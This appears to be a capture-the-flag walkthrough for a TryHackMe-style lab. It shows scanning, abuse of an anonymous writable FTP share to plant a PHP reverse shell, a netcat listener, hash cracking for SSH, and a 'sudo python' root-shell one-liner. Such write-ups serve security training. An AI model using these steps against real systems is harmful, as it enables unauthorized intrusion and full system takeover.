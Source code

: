 <h2>We start with a scan: nmap -A -sC ip
We see an Apache server and an FTP server. It is possible to enter ftp with **user anonymous**, without a password.</h2>

![nmap](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/THM%20-%20Basic%20Hack/1.PNG)

Going to the Browser http://ip_target we see a default Apache page, there is a comment in the source code.

![browser](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/THM%20-%20Basic%20Hack/2.png)

Using gobuster, we discovered a hidden directory, with a file called CALL.txt

![gobuster](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/THM%20-%20Basic%20Hack/3.png)

Now we will go to FTP

![ftp, anonymous](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/THM%20-%20Basic%20Hack/4.PNG)

With **ls -la** we see that we can * write to the FTP directory * and that it is the same folder where the CALL.txt file is located.
We can use /usr/share/webshells/php/php-reverse-shell.php
We just need to change the ip and port before uploading to FTP

![php-reverse-shell](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/THM%20-%20Basic%20Hack/5.PNG)

We will send php-reverse-shell.php to the victim via ftp -> ** put xx/php-reverse-shell.php **

![put_php-reverse-shell](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/THM%20-%20Basic%20Hack/6.PNG)

Let's open ¹**nc -lnvp 1234** by listening and go to the ?browser to open ³php-reverse-shell.php

![nc](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/THM%20-%20Basic%20Hack/7.PNG)
![browser](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/THM%20-%20Basic%20Hack/8.PNG)
![conexão](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/THM%20-%20Basic%20Hack/9.PNG)

We found the 1st flag in /home/shrek/user.txt

![flag1](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/THM%20-%20Basic%20Hack/10.PNG)

In /home, we see an important.txt file, pointing to "/.runme.sh"

![runme.sh](https://github.com/elias403/Write-up-s/blob/main/images/THM%20-%20Basic%20Hack/11.png)

Analyzing ¹hash, it is an MD5, we see that it is possibly the credential for ²SSH and also the secret key
&nbsp;
https://www.tunnelsup.com/hash-analyzer/ 
&nbsp;
https://crackstation.net/
&nbsp;

![shrek:hash](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/THM%20-%20Basic%20Hack/12.PNG)
![ssh](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/THM%20-%20Basic%20Hack/13.PNG)

By providing sudo -l, we can run python with sudo without a password. Going to https://gtfobins.github.io/gtfobins/python/#sudo, we see a way to get a privileged shell.

![sudo-l](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/THM%20-%20Basic%20Hack/14.PNG)

`
sudo python -c 'import os; os.system("/bin/sh")'
`

![root](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/THM%20-%20Basic%20Hack/15.PNG)


